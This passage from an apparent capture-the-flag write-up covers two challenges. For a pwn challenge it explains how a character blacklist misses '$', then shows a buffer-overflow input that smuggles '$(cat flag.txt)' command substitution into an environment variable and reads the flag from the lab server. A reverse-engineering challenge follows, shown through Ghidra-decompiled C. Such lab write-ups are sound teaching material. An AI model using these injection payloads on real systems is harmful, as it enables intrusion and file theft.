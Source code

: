This is simple enough its a blacklist function, that triggers on any occurrences of these characters ```['/', '&', '(', '\"', '`', '|', ';']```.

A couple of interesting things to note:
- There is no `$` blacklisting.
- There is a bypass flag `param_3`.
    - The call from `first_chall` is set to `1` allowing a bypass.
    - The call from `main` is set to `0`, so we have a restricted CI there.

### Lets put this all together then
- We use the BOF to set `name` env to a command of our choice.
    - `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$(echo "bread")`
- We then call `name` using `$name`

```shell
bread@sticks:~# ./overdosed 
Could you tell me about yourself?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$(echo "bread")
Hey, I am from TMHC. Could you tell me your name?
Name: $name
Hello bread
```

yep that works, guess the stack is set up how I expected. lets try it on the server.

```shell
bread@sticks:~# nc docker.hackthebox.eu 1337
Could you tell me about yourself?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$(cat flag.txt)
Hey, I am from TMHC. Could you tell me your name?
Name: $name
Hello TMHC{}
```

Got the flag

    `TMHC{}`

## Operation - Category: RE

Opened in ghidra read `main()`
```c
undefined8 main(int argc,undefined8 *argv){
  int iVar1;
  char local_28 [32];
  
  if (argc < 2) {
    printf("Usage: %s <file>\n",*argv);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (2 < argc) {
    iVar1 = strncmp("--debug",(char *)argv[2],7);
    if (iVar1 == 0) {
      isDebug = 1;
      printf("operations is at: %p\n",operations);
    }
  }
  readFlag(local_28,(char *)argv[1]);
  operations((long)local_28,0);
  puts(local_28);
  return 0;
}
```
Which as you can see at the bottom 2 functions are called firstly `readFlag()` then `operations()`.
If we quickly look at `operations()` if `param_2` does not equal `0` then the operations are not applied.